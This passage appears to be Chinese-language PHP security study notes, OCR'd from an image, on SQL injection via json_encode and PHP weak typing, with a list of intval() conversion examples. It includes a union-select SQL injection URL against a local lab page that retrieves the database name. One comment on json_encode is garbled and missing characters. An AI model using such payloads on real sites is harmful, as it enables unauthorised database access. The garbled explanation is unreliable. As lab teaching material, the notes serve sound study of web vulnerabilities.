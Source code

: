 ##### json_encode 编码注入

`$id = json_encode($id)`  //该函数把转换为\，两个反斜杠抵消。

```http
http://127.0.0.1:8081/www.phpsec.com/sql/sql4.php?id=-1%27%20union%20select%201,2,database()%23
```

<img src=".\图片\Snipaste_2023-04-08_17-08-29.png" alt="Snipaste_2023-04-08_17-08-29" style="zoom:80%;" />

### SQL注入弱类型

在判断数据类型时，php有类型函数 对其判断，php是一种弱类型，会自动转换类型。

如果只是判断，并没有赋值。可能会造成漏洞。

#### intval

整型转换函数

```php
echo intval(42); // 42
echo intval(4.2); // 4
echo intval('42'); // 42
echo intval('+42'); // 42
echo intval('-42'); // -42
echo intval(042); // 34
echo intval('042'); // 42
echo intval(1e10); // 1410065408
echo intval('1e10'); // 1
echo intval(0x1A); // 26
echo intval(42000000); // 42000000
echo intval(420000000000000000000); // 0
echo intval('420000000000000000000'); // 32位系统：2147483647 64位系统：9223372036854775807
echo intval(42, 8); // 42
echo intval('42', 8); // 34
echo intval(array()); // 0
echo intval(array('foo', 'bar')); // 1
```
